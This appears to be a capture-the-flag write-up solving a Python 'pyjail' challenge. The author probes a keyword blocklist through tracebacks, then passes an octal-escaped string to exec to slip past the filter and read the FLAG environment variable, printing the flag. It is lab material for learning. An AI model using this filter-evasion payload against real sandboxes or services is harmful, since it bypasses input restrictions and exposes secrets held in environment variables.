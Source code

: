 *You step into a constricted floor where every movement and operation is limited. Commands are few, space is tight, and options are restricted.*  

*A guardian looms over the floor, its body shifting like liquid metal, enforcing these constraints. It watches your every move, daring you to make do with what you have and uncover the passcode to the next floor despite the restrictions.*  

*Connection: nc chall_citadel.cryptonitemit.in 32770*  

## What I did:
* After testing the python interpreter multiple times , I found out that :
```
>>> print

ERROR:
Traceback (most recent call last):
  File "/home/user/pyjail_challenge.py", line 26, in <module>
    exec('from os import *; ' + clean(user_input))
  File "/home/user/pyjail_challenge.py", line 18, in clean
    raise ValueError(f"NUH UH, {word} is not allowed!{although}")
ValueError: NUH UH, print is not allowed! (although print is very close)

>>> flag

ERROR:
Traceback (most recent call last):
  File "/home/user/pyjail_challenge.py", line 26, in <module>
    exec('from os import *; ' + clean(user_input))
  File "/home/user/pyjail_challenge.py", line 18, in clean
    raise ValueError(f"NUH UH, {word} is not allowed!{although}")
ValueError: NUH UH, flag is not allowed! (although flag is very close)
```
* Print and flag didn't get accepted but it said that they are very close.
* *exec(*'*from os import* *; ' + clean(user_input))* this line tells us that something is being imported. After trying 'environ'. We see that :
```
ERROR:
Traceback (most recent call last):
  File "/chall", line 23, in <module>
    exec('from os import *; ' + clean(user_input))
                                ^^^^^^^^^^^^^^^^^
  File "/chall", line 15, in clean
    raise ValueError(f"NUH UH, {word} is not allowed!{although}")
ValueError: NUH UH, environ is not allowed! (although environ is very close)
```
* After trying multiple commands , we find that exec is accepted .
* So we know that the whitelist is {exec,lower,print related,flag related,environ related}
* Upon further deliberation:
```
print(__import__('os').environ.get('FLAG'))
ERROR:
Traceback (most recent call last):
  File "/home/user/pyjail_challenge.py", line 26, in <module>
    exec('from os import *; ' + clean(user_input))
  File "/home/user/pyjail_challenge.py", line 18, in clean
    raise ValueError(f"NUH UH, {word} is not allowed!{although}")
ValueError: NUH UH, print is not allowed! (although print is very close)
```
* So , we tried :
```
>>> exec("\160\162\151\156\164\050\137\137\151\155\160\157\162\164\137\137\050\047\157\163\047\051\056\145\156\166\151\162\157\156\056\147\145\164\050\047\106\114\101\107\047\051\051")
citadel{d34th_d035_n07_fr33_y0u_fr0m_7h3_gu17ar15t}
```
which printed the flag.


```
flag: citadel{d34th_d035_n07_fr33_y0u_fr0m_7h3_gu17ar15t}
```
